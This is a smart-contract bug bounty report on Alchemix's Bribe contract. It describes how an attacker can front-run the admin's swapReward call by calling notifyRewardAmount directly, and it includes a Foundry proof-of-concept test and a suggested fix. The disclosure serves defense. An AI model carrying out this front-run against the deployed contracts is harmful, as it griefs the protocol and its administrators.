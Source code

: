
# malicious user can front run any call to the `swapReward` and cause reverting admin calls and prevent setting the correct index to the newToken

Submitted on May 2nd 2024 at 03:23:54 UTC by @zeroK for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30613

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
the function `voter.sol#swapReward` is meant to be used to update the reward token from old one to new one, this function is only callable by the admin and it make calls to the `Bribe.sol#swapOutRewardToken` which it updates the `isReward` from false to true for the newToken, and it set the old token index to the newToken address, however an attacker can front run the owner and cause Griefing plus preventing from setting the correct index to the newToken address, this issue can make loss to the owner by front run his/her TX and cause loss of gas + making the rewards length longer each time the attacker front run the owner call and preventing setting the correct index to the new token that the owner decide to set.

## Vulnerability Details

to call the swapReward function the owner first need to call the whitelist function to add the new token to whitelist, if not then the call to the swapReward is impossible because of the checks for the whitelist token
the function `swapReward` make call to the swapOutRewardToken with the below inputs:

```solidity 
 function swapReward(address gaugeAddress, uint256 tokenIndex, address oldToken, address newToken) external {
        require(msg.sender == admin, "only admin can swap reward tokens");
        IBribe(bribes[gaugeAddress]).swapOutRewardToken(tokenIndex, oldToken, newToken);
    }
```
as it shown the tokenIndex is set to update the token index when call made to the `swapOutRewardToken`:

```solidity 
 function swapOutRewardToken(uint256 oldTokenIndex, address oldToken, address newToken) external {
        require(msg.sender == voter, "Only voter can execute");
        require(IVoter(voter).isWhitelisted(newToken), "New token must be whitelisted");
        require(rewards[oldTokenIndex] == oldToken, "Old token mismatch");

        // Check that the newToken does not already exist in the rewards array
        for (uint256 i = 0; i < rewards.length; i++) {
            require(rewards[i] != newToken, "New token already exists");
        }

        isReward[oldToken] = false;
        isReward[newToken] = true;

        // Since we've now ensured the new token doesn't exist, we can safely update
        rewards[oldTokenIndex] = newToken; // set the old index to the new token
```
however, malicious user can front run the owner call to the `swapReward ` the moment that he/she realized that a new token added to the whitelist lists by calling the `notifyRewardAmount` directly from the bribe.sol contract, while this contract is external and allow anyone call it directly the malicious  user can  call it with the new whitelisted token address before the admin call and the notifyRewardAmount function will not set the correct index to the new token when call made to the `_addRewardToken`(it did not set index to it) and increase the `rewards` list :

```solidity 

function notifyRewardAmount(address token, uint256 amount) external lock {
        require(amount > 0, "reward amount must be greater than 0");

        // If the token has been whitelisted by the voter contract, add it to the rewards list
        require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");
        _addRewardToken(token);

        // bribes kick in at the start of next bribe period
        uint256 adjustedTstamp = getEpochStart(block.timestamp);
        uint256 epochRewards = tokenRewardsPerEpoch[token][adjustedTstamp];

        IERC20(token).safeTransferFrom(msg.sender, address(this), amount);

        tokenRewardsPerEpoch[token][adjustedTstamp] = epochRewards + amount;
        periodFinish[token] = adjustedTstamp + DURATION;

        emit NotifyReward(msg.sender, token, adjustedTstamp, amount);
    }

function _addRewardToken(address token) internal {
        if (!isReward[token] && token != address(0)) {
            require(rewards.length < MAX_REWARD_TOKENS, "too many rewards tokens");
            require(IVoter(voter).isWhitelisted(token), "bribe tokens must be whitelisted");

            isReward[token] = true;
            rewards.push(token); // if the old index is 5 then we give the new token index 6 not 5, push increase the index
        }
    }
```
according to our calculation the amount of gas that the admin will loss according to this case is more than the amount that the malicious user need to front run the admin with tiny `amount.

## Impact Details
malicious user can front run admin call to the `swapReward` and cause loss of gas  to the admin + setting incorrect index to the new token that get added

## Recommend
we recommend to prevent any direct call to the `notifyRewardAmount` function in the bribe.sol and adding `require(msg.sender == voter)`  to prevent this case which leads to Griefing.



## Proof of Concept

run the test file below in src/test

```solidity 
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

import "lib/forge-std/src/console2.sol";
import "lib/forge-std/src/Test.sol";
import "./utils/DSTestPlus.sol";

import "src/VotingEscrow.sol";
import "src/AlchemixGovernor.sol";
import "src/FluxToken.sol";
import "src/Voter.sol";
import "src/Minter.sol";
import "src/RewardPoolManager.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/Bribe.sol";
import "src/gauges/CurveGauge.sol";
import "src/gauges/PassthroughGauge.sol";
import "src/governance/TimelockExecutor.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";

import "src/interfaces/aura/MockCurveGaugeFactory.sol";
import "src/interfaces/IAlchemixToken.sol";
import "src/interfaces/IMinter.sol";
import "src/interfaces/balancer/WeightedPool2TokensFactory.sol";
import "src/interfaces/balancer/WeightedPoolUserData.sol";
import "src/interfaces/balancer/IVault.sol";
import "src/interfaces/IWETH9.sol";
import "src/gauges/StakingRewards.sol";
import "src/interfaces/aura/IRewardPool4626.sol";

contract testing is Test, BaseTest {
    uint256 public fakeToken;
    address public alice;

    IERC20 public usdd = IERC20(0x0C10bF8FcB7Bf5412187A595ab97a3609160b5c6);
    function setUp() public {
        setupContracts(block.timestamp);

        alice = vm.addr(1);
        deal(address(usdd), address(alice), 1 ether);
    }

    function test_attack() public {
        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.startPrank(address(timelockExecutor));

        voter.whitelist(address(usdd));
        vm.startPrank(alice);
        usdd.approve(address(voter), type(uint256).max);
        usdd.approve(address(bribeAddress), type(uint256).max);

        IBribe(bribeAddress).notifyRewardAmount(address(usdd), 1000000000000000000);

        hevm.startPrank(address(timelockExecutor));
        // vm.expectRevert();
        voter.swapReward(address(sushiGauge), 0, dai, address(usdd));
    }
}


```